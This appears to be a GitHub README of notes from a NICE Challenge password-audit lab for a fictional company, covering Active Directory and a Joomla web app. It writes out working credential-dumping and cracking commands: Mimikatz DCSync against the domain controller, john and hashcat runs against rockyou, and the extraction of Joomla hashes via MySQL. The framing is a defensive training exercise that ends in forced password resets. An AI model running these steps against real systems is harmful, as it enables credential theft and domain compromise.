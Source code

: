 # PasswordAudit-NICE

Pretty Safe Electronics  AD and Webapp password audit
[NICE portal preview](https://portal.nice-challenge.com/curator/challenges?work_role=&specialty_area=23&environment=2&os=&category=&challenge_type=&ksa_id=&ksa_desc=&task_id=&task_desc=&ku_desc=&title=&scenario=&submit=Search#68/1)

# Lab #1: Notes for Windows (AD) process

#### On the security desk  (playerone/password123)
```
find / -name mimikatz
cd /usr/share/windows-resources/mimikatz
# control panel / system and security / system to determine x64/i86
scp /usr/share/windows-resources/mimikatz/x64/* playone@172.16.30.55:.
```
#### On domain controller
```
.\mimikatz.exe
log a.log
lsadump::dcsync /domain:prettysafeelectronics.io /all /csv
exit
```

#### Back on the security desk
```
scp playerone@172.16.30.55:a.log .
# edit down to just the hashes
cut -f 3 a.log | tail -n +9 | head -n -3 > hashes
/usr/sbin/john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hashes
# Two passwords 98765421 & iloveme
more .john/john.pot
# match hashes in a.log  user = nkeefe & jcortes
```

#### back on domain controller
Admin tools / active directory users and computers
set users to force password change on next login

![Result image](AD-result.png))
# Lab #2: Notes for Webapp (Joomla) process

#### On the security desk  (playerone/password123)
WORK FROM Security Desk for scrolling terminal window cut/paste

```
ssh playerone@172.16.10.100
find / -name configuration.php 2>/dev/null
cd /var/www/html
more configuration.php # to find user/password/db/dbprefix
mysql -u pse -p -h 172.16.30.88
use prettysafe
show tables;
show columns in pretty_users;
select id,password from pretty_users;
```
cut/paste hashes to text file --> b.log

#### On security desk
```
cut -d ' ' -f 4 b.log > joomla_hashes
/usr/sbin/john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt joomla_hashes
OR
hashcat -m 0 --force joomla_hashes /usr/share/wordlists/rockyou.txt
hashcat --show joomla_hashes
# match 1234567890 & Ashley to hashes; users = 
grep 'adff\|e807' b.log
```

#### Reconnect to MYSQL
```
update pretty_users set requireReset=1 where id=734 or id=740;
```
![Result image](Webapp-result.png))

